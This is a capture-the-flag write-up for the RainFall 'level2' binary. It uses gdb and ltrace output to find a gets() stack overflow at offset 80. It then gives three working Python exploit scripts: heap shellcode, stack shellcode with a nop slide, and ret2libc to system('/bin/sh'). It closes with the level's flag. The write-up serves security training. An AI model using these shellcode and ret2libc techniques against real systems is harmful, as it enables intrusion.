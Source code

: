 #### inside GDB:

###### by running :

```
> info fun
...
0x080484d4  p
0x0804853f  main
...
```
- we notice that there is two functions : __main()__ + __p()__

- __p()__ called inside the __main()__

###### by looking at the __p()__ assemby, we come out with this resume :

- flush the stdout with __fflush()__
- local variable __inpt__ with size 80 (we will explain how we found the 80)
- takes input from user by __gets()__ and store it into inpt
- ___gets()___ has a vulnerability since it doesnt check for size but only wait for endline \0
- takes the return address and apply the "__&&__" operation with _0xb0000000_ to prevent any overwrite with a system function address into the return adress
- check if the ret adress equal to _0xb0000000_
- if true :
        - __printf("(%p)\n", returnAdress)__ , print return adress
        - exit
- if false:
        - prints the input with __puts(input)__
        - call ___strdup(input)__


#### Find the exploit:
- lets find the offset of the buffer overflow 
using this tool :
https://wiremask.eu/tools/buffer-overflow-pattern-generator/
we generate a string of 200 character, then we run the prog with this input inside gdb :
```
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb)
```
the programm SEGFAULT with address __0x37634136__

- means that we filled all the buffer and wrote into return address so the pgramm procced to execute and found that the return address is 0x37.... which doesnt exist in the memory and even tho , we dont have access to
- lets take copy this address again into the tool above , and check for the offset
- result is 80
- means the buffer overflow at 80 characters

### there is 3 solutions:
___
##### 1:- use the shellcode exploit in the Hype
since the programm calls strdup which calls malloc 
that's mean a hype there baby :* 
which mean we can use the address of tha allocated hype section to execute our shell code after we fill the buffer of 80 
which mean we can write our adress after 80 character

```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7c4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                     = 0
gets(0xbffff6cc, 0, 0, 0xb7e5ec73, 0x80482b5allali
)          = 0xbffff6cc
puts("allali"allali
)                                         = 7
strdup("allali")                                       = 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$
```
strdup returns __0x0804a008__

hypeAdd = 0x0804a008
shell code + padding + hypeAddress = 84
....21.................59..................4...........= 84
- script that helps generate the exploit
```python
import struct
shell_code = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
#80 cd c9 31 e3 89 6e 69 62 2f 68 73 2f 2f 68 52 99 58 0b 6a
padding = "A" * 55
hypeAddress = struct.pack("I", 0x0804a008) # convert the hyper address to little indian format

pattern = shell_code + padding + hypeAddress
print(pattern)
```
___
##### 2:- use the shellcode exploit in the Stack
```python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT" # length 80
shellcode =  "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
fakeAddr = struct.pack("I", 0x0804853e) # to bypass the return address check
eip = struct.pack("I", 0xbffff700 + 40) # stack address but we move forward by 40 in order to fall into the nopslide
nopslide  = "\x90" * 100 # \x90 == nothing == nosplide : 
                         # when program get redirected to this aread of nops it will sldie to the shell code
payload = shellcode

print(padding + fakeAddr + eip + nopslide + payload)
```
___
##### 3:- use Ret2Libc exploit in the stack


```py
import struct

# buffer overflow offset is 80


# p()    return_adress = 0x0804853e
# main() return_adress = 0x0804854b

padding = "\x90" * 80
ret_adress = str(struct.pack("I", 0x0804853e)) #p() func ret addr
system = str(struct.pack("I", 0xb7e6b060))
returnAfterSystem = str(struct.pack("I", 0xb7e5ebe0)) # address of exit() function , system need it 
bin_sh = str(struct.pack("I", 0xb7f8cc58)) # /bin/sh

payload = padding + ret_adress + system + returnAfterSystem +  bin_sh
#          80     +     4      +    4   +         4         +   4 
print(payload)

```


#### flag : `492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02`